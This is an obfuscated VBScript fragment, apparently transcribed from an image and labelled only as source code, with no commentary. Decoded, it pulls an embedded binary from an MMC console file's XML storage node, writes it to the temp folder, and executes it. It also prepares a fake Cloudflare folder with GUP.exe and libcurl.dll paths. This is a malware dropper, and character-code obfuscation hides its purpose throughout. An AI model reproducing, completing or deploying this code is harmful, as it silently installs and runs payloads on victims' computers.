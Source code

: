 ```
OMxa=Chr(Int("53"))&Chr(Int("&H31"))&Chr(&H37)&Chr(51)&Chr(52)&Chr(101)&Chr(56)&Chr(Int("&H65"))&Chr(&H37)&Chr(Int("101"))&Chr(&H63)&Chr(Int("&H34"))&Chr(&H37)&Chr(Int("101"))&Chr(&H63)&Chr(Int("55"))&Chr(53)&Chr(Int("51"))&Chr(Int("99"))&Chr(Int("50"))&Chr(&H35)&Chr(50)&Chr(&H61)&Chr(Int("48"))&Chr(Int("55"))&Chr(Int("&H62"))&Chr(&H32)&Chr(&H63)&Chr(Int("&H35"))&Chr(Int("49"))&Chr(54)&Chr(&H62)&Chr(53)&Chr(Int("99"))&Chr(&H34)&Chr(Int("97"))&Chr(&H32)&Chr(48)&Chr(49)&Chr(&H63)&Chr(Int("&H35"))&Chr(Int("102"))&Chr(51)&Chr(Int("97"))&Chr(Int("55"))&Chr(&H66)&Chr(53)&Chr(49)&Chr(Int("54"))&Chr(Int("&H37"))&Chr(Int("54"))&Chr(&H66)&Chr(Int("50"))&Chr(&H30)&Chr(&H31)&Chr(Int("&H64"))&Chr(53)&Chr(&H31)&Chr(Int("54"))&Chr(56)&Chr(Int("53"))&Chr(54)&Chr(&H66)&Chr(Int("&H64"))&Chr(55)&Chr(102)&Chr(Int("&H35"))&Chr(49)&Chr(Int("55"))&Chr(101)&Chr(Int("&H64"))&Chr(99)&Chr(Int("&H35"))&Chr(Int("98"))&Chr(Int("56"))&Chr(57)&Chr(&H35)&Chr(Int("49"))&Chr(&H36)&Chr(&H38)&Chr(Int("&H36"))&Chr(51)&Chr(Int("49"))&Chr(Int("49"))&Chr(Int("&H36"))&Chr(Int("50"))&Chr(Int("&H31"))&Chr(Int("56"))&Chr(56)&Chr(100)&Chr(Int("53"))&Chr(Int("98"))&Chr(&H37)&Chr(Int("54"))&Chr(Int("56"))&Chr(Int("52"))&Chr(Int("57"))&Chr(Int("&H30"))&Chr(Int("49"))&Chr(Int("97"))&Chr(Int("55"))&Chr(Int("&H37"))&Chr(101)&Chr(Int("&H35"))&Chr(Int("&H66"))&Chr(Int("&H66"))&Chr(&H30)&Chr(&H38)&Chr(48)&Chr(Int("48"))&Chr(Int("51"))&Chr(Int("&H31"))&Chr(&H30)&Chr(&H30)&Chr(51)&Chr(49)&Chr(Int("&H36"))&Chr(Int("&H37"))&Chr(&H30)&Chr(Int("56"))&Chr(Int("48"))&Chr(Int("&H30"))&Chr(Int("&H33"))&Chr(Int("50"))&Chr(54)&Chr(53)&Chr(Int("101"))&Chr(Int("53"))&Chr(&H38)&Chr(Int("&H31"))&Chr(Int("&H66"))&Chr(&H33)&Chr(Int("&H30"))&Chr(&H30)&Chr(Int("&H33"))&Chr(&H33)&Chr(Int("&H36"))&Chr(Int("&H35"))&Chr(Int("101"))&Chr(Int("53"))&Chr(&H34)&Chr(Int("101"))&Chr(51)&Chr(&H65)&Chr(&H38)&Chr(Int("&H38"))&Chr(Int("52"))&Chr(Int("99"))&Chr(55)&Chr(Int("&H65"))&Chr(&H62)&Chr(Int("&H66"))&Chr(&H34)&Chr(Int("101"))&Chr(Int("48"))&Chr(&H61)&Chr(56)&Chr(100)&Chr(Int("53"))&Chr(98)&Chr(Int("&H66"))&Chr(Int("102"))&Chr(Int("48"))&Chr(&H39)&Chr(48)&Chr(Int("&H30"))&Chr(Int("50"))&Chr(101)&Chr(48)&Chr(Int("48"))&Chr(Int("55"))&Chr(48)&Chr(&H30)&Chr(&H30)&Chr(Int("54"))&Chr(&H34)&Chr(48)&Chr(Int("48"))&Chr(54)&Chr(&H36)
Set AgUvcCuHzzbl=CreateObject(Chr(Int("&H57"))&Chr(537-454)&Chr(99)&Chr(3218-3104)&Chr(Int("&H69"))&Chr(Int("&H70"))&Chr(-3081+3197)&Chr(&H2e)&Chr(&H53)&Chr(104)&"e"&Chr(Int("108"))&"l")
Set DfAV40y=CreateObject(Chr(Int("83"))&Chr(6597-6498)&Chr(114)&Chr(Int("&H69"))&"p"&Chr(Int("116"))&Chr(2693-2588)&"n"&Chr(Int("103"))&Chr(125212/2722)&Chr(Int("&H46"))&Chr(Int("105"))&Chr(108)&Chr(101)&Chr(22908/276)&"y"&"s"&Chr(4733-4617)&"e"&Chr(Int("109"))&Chr(&H4f)&Chr(Int("98"))&Chr(&H6a)&Chr(101)&Chr(99)&Chr(Int("116")))
O8B1OrkTW=AgUvcCuHzzbl.ExpandEnvironmentStrings(Chr(37)&Chr(Int("&H50"))&Chr(Int("&H72"))&Chr(Int("111"))&Chr(Int("&H67"))&Chr(114)&Chr(Int("&H61"))&Chr(109)&"F"&Chr(Int("&H69"))&"l"&"e"&Chr(-1605+1720)&Chr(Int("37")))
P59b6scR2TD9=O8B1OrkTW & Chr(2088-1996)&"C"&Chr(Int("108"))&Chr(270729/2439)&Chr(Int("117"))&"d"&Chr(Int("102"))&Chr(108)&Chr(97)&Chr(Int("114"))&Chr(&H65)
DfAV40y.CreateFolder(P59b6scR2TD9)
gwqhhV=P59b6scR2TD9 & Chr(92) & Chr(Int("71"))&Chr(85)&Chr(Int("&H50"))&Chr(Int("&H2e"))&Chr(&H65)&Chr(&H78)&Chr(1805-1704)
JJNe=P59b6scR2TD9 & Chr(92) & Chr(Int("&H6c"))&Chr(Int("&H69"))&Chr(98)&Chr(Int("&H63"))&Chr(117)&Chr(&H72)&Chr(Int("&H6c"))&Chr(&H2e)&Chr(&H64)&Chr(108)&Chr(Int("108"))
For i=1 to Len(OMxa) Step 4
FRURX=FRURX & ChrW(CLng("&"&Chr(72) & Mid(OMxa,i,4)))
Next
Mw7U=DfAV40y.GetSpecialFolder(2) & Chr(92) & FRURX
Set aZPHxtz4=RTcxFmy.selectNodes( Chr(29281/623)&Chr(Int("&H4d"))&Chr(77)&Chr(1587-1520)&Chr(Int("95"))&Chr(67)&Chr(Int("&H6f"))&"n"&Chr(Int("115"))&Chr(Int("&H6f"))&Chr(108)&Chr(Int("&H65"))&Chr(70)&Chr(&H69)&Chr(108)&Chr(101)&Chr(47)&"B"&"i"&Chr(6710-6600)&Chr(&H61)&Chr(Int("114"))&Chr(Int("121"))&Chr(&H53)&Chr(116)&"o"&Chr(221844/1946)&Chr(97)&Chr(Int("103"))&Chr(Int("&H65"))&Chr(4621-4574)&Chr(&H42)&Chr(105)&Chr(Int("110"))&Chr(&H61)&Chr(8019-7905)&"y"&Chr(Int("&H5b"))&Chr(64)&Chr(Int("78"))&Chr(&H61)&Chr(Int("&H6d"))&Chr(Int("&H65"))&Chr(&H3d)&Chr(Int("&H27"))&Chr(&H43)&Chr(79)&Chr(Int("&H4e"))&Chr(&H53)&Chr(8290-8211)&Chr(Int("76"))&Chr(6677-6608)&Chr(&H5f)&Chr(Int("84"))&Chr(1018-936)&Chr(&H45)&Chr(&H45)&Chr(Int("39"))&Chr(&H5d) ) 
rqsgO2mBfu=aZPHxtz4(0).text
UoLAunW=Xk7fbp8v(rqsgO2mBfu)
Dim jXnaWeLQ12
Set jXnaWeLQ12=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
jXnaWeLQ12.Type=1
jXnaWeLQ12.Open
jXnaWeLQ12.Write UoLAunW
jXnaWeLQ12.SaveToFile Mw7U,2
AgUvcCuHzzbl.run """" & Mw7U & """",1,false
```